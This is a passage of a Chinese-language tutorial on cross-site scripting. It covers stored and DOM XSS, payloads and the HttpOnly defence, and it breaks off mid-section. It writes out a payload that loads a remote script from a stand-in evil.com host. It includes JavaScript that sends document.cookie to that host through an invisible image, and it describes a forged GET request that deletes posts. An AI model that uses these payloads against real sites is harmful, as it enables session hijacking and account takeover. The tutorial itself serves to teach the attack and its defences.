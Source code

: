 </li>
</ol>
<h4>2、存储型XSS：把用户输入的数据“存储”在服务器端，这种XSS具有很强的稳定性。</h4>
<p>比如说，黑客写下一篇包含恶意javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在浏览器中执行这段恶意的javascript代码，黑客把恶意的脚本保存到服务器端</p>
<h4>3、DOM Based XSS：通过修改页面的DOM节点形成的XSS。</h4>
<p>举个例子：<span class="img-wrap"><img data-src="https://i.imgur.com/fUWb8UV.png" src="https://static.alili.techhttps://i.imgur.com/fUWb8UV.png" alt="" title=""></span></p>
<ol>
<li>在输入框中输入内容后点击write<span class="img-wrap"><img data-src="https://i.imgur.com/Z7ZIfSr.png" src="https://static.alili.techhttps://i.imgur.com/Z7ZIfSr.png" alt="" title=""></span>
</li>
<li>此时再点击a链接<span class="img-wrap"><img data-src="https://i.imgur.com/k628HpS.png" src="https://static.alili.techhttps://i.imgur.com/k628HpS.png" alt="" title=""></span>
</li>
</ol>
<p><strong>原理：</strong>首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符"//"注释掉第二个单引号。点击此链接，脚本将被执行。</p>
<hr>
<h3>XSS Payload攻击</h3>
<h4>定义</h4>
<blockquote>XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为XSS Payload。实际上就是Javascript脚本（或者Flash或其他富客户端的脚本），所以XSS Payload能够做到任何javascript脚本能实现的功能</blockquote>
<h4>实例</h4>
<ul>
<li>
<p>通过读取浏览器的cookie对象，从而发起“cookie劫持”攻击</p>
<ol>
<li>攻击者首先加载一个远程脚本<code>http://www.a.com/test.htm?abc="&gt;&lt;script src=http://www.evil.com/evil.js&gt;&lt;/script&gt;</code>
</li>
<li>真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的Javascript代码</li>
<li>在evil.js中，通过如下代码窃取cookie<code>var img = document.createElement("img");</code>
</li>
<li><code>img.src = "http://www.evil.com/log?"+escape(document.cookie);</code></li>
<li><code>document.body.appendChild(img);</code></li>
<li>以上代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器中</li>
<li>
<a href="http://www.evil.com/log%E5%B9%B6%E4%B8%8D%E4%B8%80%E5%AE%9A%E8%A6%81%E5%AD%98%E5%9C%A8" rel="nofollow noreferrer">http://www.evil.com/log并不一...</a>，因为这个请求会在远程服务器的Web日志中留下记录<code>127.0.0.1 - - [119/Jul/2010:11:30:42 + 0800] "GET /log?cookie1%3D1234 HTTP/1.1" 404 288</code>
</li>
</ol>
</li>
<li>
<p>通过模拟GET、POST请求操作用户的浏览器（在“cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况时会非常有用）</p>
<ol>
<li>假设某博客页面存在XSS漏洞，那么可以通过构造get请求操作用户浏览器</li>
<li>假设正常删除博客文章的链接为<a href="http://blog.test.com/manage/entry.do?m=delete&amp;id=1245862" rel="nofollow noreferrer">http://blog.test.com/manage/e...</a>
</li>
<li>对于攻击者来说，只需要知道文章的id，就能够通过这个请求来删除这篇文章</li>
<li>攻击者可以通过插入一张图片来发起一个get请求<span class="img-wrap"><img data-src="https://i.imgur.com/u487aM5.png" src="https://static.alili.techhttps://i.imgur.com/u487aM5.png" alt="" title=""></span>
</li>
<li>攻击者只需要让博客作者执行这段javascript代码也就是XSS Payload，就会删除这篇文章</li>
</ol>
</li>
</ul>
<hr>
<h3>XSS的防御</h3>
<h4>1、HttpOnly</h4>
<blockquote>浏览器禁止页面的Javascript访问带有HttpOnly属性的cookie。（实质解决的是：XSS后的cookie劫持攻击）如今已成为一种“标准”的做法</blockquote>
<p>不同语言给cookie添加HttpOnly的方式不同，比如</p>